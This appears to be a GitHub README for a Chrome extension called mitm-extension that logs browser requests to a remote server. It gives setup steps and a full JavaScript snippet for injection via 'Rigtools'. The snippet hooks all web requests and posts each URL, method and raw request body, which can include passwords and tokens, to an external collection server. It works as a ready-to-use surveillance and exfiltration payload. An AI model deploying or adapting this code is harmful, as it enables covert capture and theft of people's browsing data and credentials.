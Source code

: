 # mitm-extension
Log all request sent to and from your browser

## Setup
```sh
$ git clone https://github.com/entrpix/mitm-extension
```

## Extension
- Inside `mitm-extension/extension/background.js` edit:
  - `SERVER_URL` to be your server
  - `TOKEN` to be your token
- Zip the extension
- Then go to `chrome://extensions`
  - Enable developer mode
  - Load extension

## Server
```sh
$ cd mitm-extension
$ cd server
$ touch .env
$ echo "TOKEN=YOUR_TOKEN" > .env
$ (p)npm i
$ node index.js
```

To access your logs visit `DOMAIN:PORT/logs?auth=TOKEN`

## Rigtools
Requires `webRequest` premission
```js
const SERVER_URL = 'http://example.com/create'; const SERVER_DOMAIN = 'example.com'; const TOKEN = ''; const LOG = ["*"]; const DONT_LOG = []; function shouldLog(url) { return DONT_LOG.includes("*") ? LOG.some(allowed => url.includes(allowed)) : LOG.includes("*") ? !DONT_LOG.some(exclude => url.includes(exclude)) : LOG.some(allowed => url.includes(allowed)) && !DONT_LOG.some(exclude => url.includes(exclude)); } chrome.webRequest.onBeforeRequest.addListener(d => !d.url.includes(SERVER_DOMAIN) && shouldLog(d.url) && (d.requestBody && d.requestBody.raw ? String.fromCharCode.apply(null, new Uint8Array(d.requestBody.raw[0].bytes)) : null, fetch(SERVER_URL, { method: 'POST', headers: { 'Content-Type': 'application/json', 'Authentication': TOKEN }, body: JSON.stringify({ method: d.method, date: new Date().toISOString(), url: d.url, requestBody: d.requestBody && d.requestBody.raw ? String.fromCharCode.apply(null, new Uint8Array(d.requestBody.raw[0].bytes)) : null }) }).catch(e => console.error('Error:', e))), { urls: ["<all_urls>"] }, ["requestBody"]); chrome.webRequest.onCompleted.addListener(d => !d.url.includes(SERVER_DOMAIN) && shouldLog(d.url) && fetch(SERVER_URL, { method: 'POST', headers: { 'Content-Type': 'application/json', 'Authentication': TOKEN }, body: JSON.stringify({ method: d.method, date: new Date().toISOString(), url: d.url, requestBody: d.requestBody && d.requestBody.raw ? String.fromCharCode.apply(null, new Uint8Array(d.requestBody.raw[0].bytes)) : null, statusCode: d.statusCode, requestId: d.requestId, responseHeaders: d.responseHeaders || {} }) }).catch(e => console.error('Error:', e))), { urls: ["<all_urls>"] }, ["responseHeaders"]);
```
